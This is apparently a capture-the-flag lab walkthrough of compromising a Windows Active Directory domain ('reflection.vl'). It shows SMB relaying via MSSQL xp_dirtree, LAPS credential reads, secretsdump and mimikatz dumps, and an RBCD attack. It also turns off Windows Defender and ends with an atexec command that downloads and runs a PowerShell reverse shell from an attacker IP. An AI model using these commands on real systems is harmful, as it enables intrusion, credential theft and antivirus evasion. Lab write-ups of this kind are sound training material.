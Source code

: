 

![](Reflection_.png)


```
SMB         10.10.193.215   445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:reflection.vl) (signing:False) (SMBv1:False)
SMB         10.10.193.214   445    MS01             [*] Windows Server 2022 Build 20348 x64 (name:MS01) (domain:reflection.vl) (signing:False) (SMBv1:False)
SMB         10.10.193.213   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:False)
```


## INITIAL_ACCESS


We got guest level access in MS01 , and got a staging_db.conf file.


```
└─# crackmapexec smb ip_ -u guest -p '' --shares

└─# impacket-smbclient reflection.vl\guest@10.10.193.214
```

![](Guest_Ms01.png)


Its the credential of mssql server !


```
└─# impacket-mssqlclient reflection.vl/web_staging:Washroom510@10.10.193.214 
```


![](Mssql_Server.png)




Now , We need to relay the authentication . i.e smb_relaying !  [Blog](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adversary-in-the-middle/smb-relay#performing-the-attack-from-linux)


Attacker

Edit the /etc/responder/responder.conf file , Set SMB and HTTP to 'off'

![](Responder.conf.png)


Then start the responder and ntlmrelay tools !

```
└─# responder -I tun0 -v  
```


```
└─# impacket-ntlmrelayx -tf ip_ -smb2support -i
```



![](Relay.png)




Victim 


```
SQL (web_staging  guest@master)> xp_dirtree \\10.8.0.148\chain\anything
```



WE got connection to the relay attack , Lets connect !

![](Successful_Relay.png)


Cool ! We got access to the Domain Controller and got another conf. file.


![](NetCat_Access.png)



DC also got mssql server , Lets connect to the DC's SQl Server !

```
└─# impacket-mssqlclient reflection.vl/web_prod:Tribesman201@10.10.193.213
```



```sql
enum_db

use prod

SELECT * FROM prod.INFORMATION_SCHEMA.TABLES;

select * from users;
```




![](Mssql_Dump.png)


```
abbie.smith  :::  CMe1x+nlRaaWEw

dorothy.rose  :::  hC_fny3OK9glSJ
```


They are domain Users . Lets enumerate AD !




```
└─# bloodhound-python --username abbie.smith --password 'CMe1x+nlRaaWEw' --domain reflection.vl --nameserver 10.10.193.213 --domain-controller DC01.reflection.vl --collectionmethod all --zip
```



![](Blood_Hound.png)


Abbie.Smith got `GenericAll` privilege to MS01 server ! 

```This is also known as full control. This privilege allows the trustee to manipulate the target object however they wish.```


Checking LAPS credentials !

```
Windows Local Administrator Password Solution** (Windows LAPS) is a Windows feature that automatically manages and backs up the password of a local administrator account on your Microsoft Entra joined or Windows Server Active Directory-joined devices.
```


```
└─# crackmapexec ldap dc01 -u "abbie.smith" -p "CMe1x+nlRaaWEw" -M laps
```


![](Laps_Creds.png)




## MS01

```
└─# crackmapexec smb 10.10.205.246 -u MS01$ -p 'H447.++h6g5}xi' --local-auth
```

Local-Auth --> It is computer account not domain-joined .

But this account doesnot have high privilege , Lets check for password Reuse !

```
└─# crackmapexec smb 10.10.205.246 -u administrator -p 'H447.++h6g5}xi' --local-auth
```

As this is the high level user , Now Lets dump some secrets along the way !!

```
└─# impacket-secretsdump MS01/administrator:'H447.++h6g5}xi'@10.10.205.246
```


![](SecretsDump_MS01.png)

Seems Like Georgia.Price have recently Logged-In to the system ! And she got high privilege !!


Lets Grab Mimikatz and Get her credentials from the system !


```
└─# evil-winrm -i 10.10.205.246 -u administrator -p 'H447.++h6g5}xi'
```

Before Runnning mimikatz , disable AV.

```
powershell.exe Set-MpPreference -DisableScriptScanning 1

powershell.exe Set-MpPreference -DisableRealtimeMonitoring 1
```

Then , 

```
.\mimikatz.exe "token::elevate" "privilege::debug" "lsadump::sam" "vault::cred /patch" "exit"
```

![](Georgia.Prince_Creds.png)


Cool ! We Got her Credentials . Lets Explore and Penetrate More!

## WS01


![](Georgia_Prince_Hound.png)


```
The user GEORGIA.PRICE@REFLECTION.VL has GenericAll privileges to the computer WS01.REFLECTION.VL.

This is also known as full control. This privilege allows the trustee to manipulate the target object however they wish.
```


This time there isnt LAPS credentials stored in the DC. We gotta do RBCD Attack as we already compromised MS01 we can delegate to WS01.


```
└─# impacket-rbcd 'reflection.vl/Georgia.Price:DBl+5MPkpJg5id' -delegate-from MS01$ -delegate-to WS01$ -action 'write' -dc-ip DC01
```

![](RBCD_.png)

```
└─# impacket-getST -dc-ip dc01 -spn cifs/ws01 'reflection.vl/ms01$' -impersonate administrator -hashes :ce3fff37d339890e91728fde0d381c45
```

![](RBCD_2.png)



Cool ! We impersonated Administrator !!


```
└─# export KRB5CCNAME=administrator@cifs_ws01@REFLECTION.VL.ccache
```

```
└─# impacket-secretsdump -k ws01
```


![](SecretsDump_Ws01.png)

We got Rhys.Garner Credentials ! Lets check his privileges ! He dont have privilege , But Dom_Rgarner might be the higher priv. account of rhys.

![](Dom_Rhys.png)



Yeah , It is and also he reused his credentials for both of his accounts !


![](Dc_Pwned.png)


```
└─# crackmapexec smb dc01 -u dom_rgarner -p 'knh1gJ8Xmeq+uP'
```


The Domain Controlled is Pwned !


## LEARNED 

SMB relaying 
Generic All Attack 
	--> Read LAPS Credentials
	 --> RBCD Attack
Password Reuse 


### Reverse Shell

We are using atexec to disable windows defender and execute a nishang reverse shell to get access to the box WS01

```bash
impacket-atexec -hashes :a29542cb2707bf6d6c1d2c9311b0ff02 'ws01/administrator@ws01' 'powershell.exe -c "Set-MpPreference -DisableRealtimeMonitoring $true"' 
impacket-atexec -hashes :a29542cb2707bf6d6c1d2c9311b0ff02 'ws01/administrator@ws01' 'powershell.exe -c "Set-MpPreference -ExclusionPath C:\\"'
impacket-atexec -hashes :a29542cb2707bf6d6c1d2c9311b0ff02 'ws01/administrator@ws01' "powershell.exe -nop -w hidden -ep bypass -c IEX(New-Object Net.WebClient).DownloadString('http://10.8.0.84/shell.ps1');"
```


```
└─# crackmapexec smb ws01 -u administrator -H a29542cb2707bf6d6c1d2c9311b0ff02 --local-auth --get-file \\Users\\rhys.garner\\Desktop\\flag.txt flag --exec-method atexec
```
